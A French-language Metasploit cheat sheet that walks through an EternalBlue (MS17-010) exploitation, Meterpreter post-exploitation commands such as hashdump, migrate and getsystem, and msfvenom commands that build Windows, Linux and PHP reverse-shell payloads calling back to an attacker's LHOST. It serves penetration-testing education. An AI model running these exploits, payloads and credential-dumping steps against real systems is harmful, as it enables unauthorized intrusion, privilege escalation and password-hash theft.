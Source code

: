 # 🎯 Metasploit : Le Guide Pratique

Metasploit est un framework complet pour le pentest. Il vous permet de trouver des vulnérabilités, d'exploiter des machines et de maintenir des accès. C'est un outil essentiel.

## 🚀 Démarrage et Commandes de Base

```bash
# Lance la console Metasploit. C'est votre interface principale.
msfconsole

# (Optionnel mais recommandé) Initialise la base de données pour la recherche.
msfdb init
```

Une fois dans `msfconsole`, voici les commandes que vous utiliserez tout le temps :

| Commande | Description |
|---|---|
| `search <terme>` | Cherche un exploit ou un module (ex: `search eternalblue`). |
| `use <module>` | Sélectionne un module à utiliser. |
| `info` | Affiche les détails du module sélectionné. |
| `show options` | Montre toutes les options à configurer (IP cible, port, etc.). |
| `set <OPTION> <VALEUR>` | Configure une option (ex: `set RHOSTS 192.168.1.10`). |
| `exploit` ou `run` | Lance l'attaque. |
| `sessions` | Gère vos sessions actives (shells, Meterpreter). |
| `back` | Revient en arrière. |

## 🔥 Workflow d'une Exploitation : de A à Z

Voici un exemple concret avec l'exploit EternalBlue (MS17-010).

1.  **Trouver l'exploit**
    ```bash
    msf6 > search ms17-010
    ```
2.  **Choisir le bon module**
    ```bash
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    ```
3.  **Configurer les options**
    - `RHOSTS` : L'IP de la **c**ible (Remote Host).
    - `LHOST` : **Votre** IP (Local Host), pour que la cible sache où se connecter en retour.
    ```bash
    msf6 exploit(...) > set RHOSTS 192.168.1.50
    msf6 exploit(...) > set LHOST 192.168.1.10
    ```
4.  **Lancer l'attaque**
    ```bash
    msf6 exploit(...) > exploit
    ```
    Si tout se passe bien, une session Meterpreter s'ouvrira !

## ⚡ Meterpreter : Votre Couteau Suisse en Post-Exploitation

Meterpreter est un "payload" avancé qui vous donne un contrôle quasi total sur la machine cible. Voici les premières choses à faire une fois que vous avez une session :

| Commande | Description |
|---|---|
| `sysinfo` | Affiche les infos du système (Windows, version, etc.). |
| `getuid` | Vous dit quel utilisateur vous êtes sur la machine. |
| `ps` | Liste les processus en cours. |
| `migrate <PID>` | Migre votre session dans un processus plus stable (comme `explorer.exe`). **Très recommandé !** |
| `hashdump` | Tente de récupérer les hashes des mots de passe Windows. |
| `shell` | Ouvre un shell Windows (`cmd.exe`) classique. |
| `screenshot` | Prend une capture d'écran de la machine cible. |
| `download <fichier>` | Télécharge un fichier de la cible vers votre machine. |
| `upload <fichier>` | Envoie un fichier de votre machine vers la cible. |

### Élever ses privilèges

Souvent, vous n'êtes qu'un simple utilisateur. La commande `getsystem` tente plusieurs techniques pour vous faire passer Administrateur ou `NT AUTHORITY\SYSTEM`.
```meterpreter
getsystem
```

## 💣 MSFvenom : Le Générateur de Payloads Autonome

`msfvenom` est l'outil qui accompagne Metasploit pour créer des charges utiles (ex: des `.exe` malveillants) que vous pouvez envoyer à vos cibles.

### Exemples de création de payloads

```bash
# Reverse shell Windows simple en .exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<VOTRE_IP> LPORT=4444 -f exe -o shell.exe

# Reverse shell Linux 64-bit en .elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<VOTRE_IP> LPORT=4444 -f elf -o shell.elf

# Payload web en PHP pour un serveur web compromis
msfvenom -p php/meterpreter_reverse_tcp LHOST=<VOTRE_IP> LPORT=4444 -f raw > shell.php
```

**Astuce :** Pour recevoir la connexion de ces payloads, utilisez le `multi/handler` dans Metasploit, configurez le même payload (`-p ...`) et les mêmes `LHOST`/`LPORT`, puis tapez `exploit`.

---
> ⚠️ **USAGE ÉTHIQUE** : Metasploit est un outil extrêmement puissant. Ne l'utilisez que dans un cadre légal et avec autorisation.